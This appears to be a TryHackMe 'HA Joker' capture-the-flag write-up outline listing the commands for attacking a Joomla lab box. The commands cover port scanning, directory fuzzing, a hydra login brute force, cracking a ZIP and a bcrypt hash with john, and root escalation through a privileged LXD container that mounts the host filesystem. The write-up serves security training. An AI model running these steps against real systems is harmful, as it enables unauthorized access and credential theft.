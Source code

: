 # TryHackMe-HA Joker CTF

**Scope:**

- Joomla
- LXC (Linux Containers)

**Keywords:**

- Directory Scan & Endpoint Control
- Login Brute Force
- ZIP File Password Cracking
- User Password Cracking
- Reverse Shell Phase
- Privilege Escalation with LXC (Linux Containers)

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `wfuzz -u http://joker.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt --hc 403,404,500,501,502,503 -c -L -t 50`
- `gobuster dir -u http://joker.thm -w /usr/share/wordlists/dirb/common.txt -b 403,404,500,501,502,503 -e -x php,txt,html -t 50`
- `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f joker.thm -t 50 -s 8080 -F http-get`
- `echo 'am9rZXI6aGFubmFo' | base64 -d`
- `gobuster dir -u http://joker.thm:8080 -w /usr/share/wordlists/dirb/common.txt --random-agent -b 403,404,500,501,502,503 -r -t 50 -x php,txt,zip,html -H 'Authorization: Basic am9rZXI6aGFubmFo'`
- `wget --header="Authorization: Basic am9rZXI6aGFubmFo" http://joker.thm:8080/backup.zip -O backup.zip`
- `zip2john backup.zip > ziphash`
- `sudo john ziphash --wordlist=/usr/share/wordlists/rockyou.txt`
- `grep cc1gr_users db/joomladb.sql`
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt adminpasshash --format=bcrypt`
- `searchsploit 'Joomla! 3.7.0'`

**System Commands:**

- `getent group lxd`
- `export TERM=xterm`
- `SHELL=/bin/bash script -q /dev/null`
- `netstat -tulwn`
- `find / -type f -perm -u=s 2>/dev/null`
- `lxc version`
- `lxc image list`
- `find / -writable 2>/dev/null`
- `lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myalpine`
- `lxc init myalpine joker -c security.privileged=true`
- `lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true`
- `lxc start joke`
- `lxc exec joker /bin/sh`

### Laboratory Environment
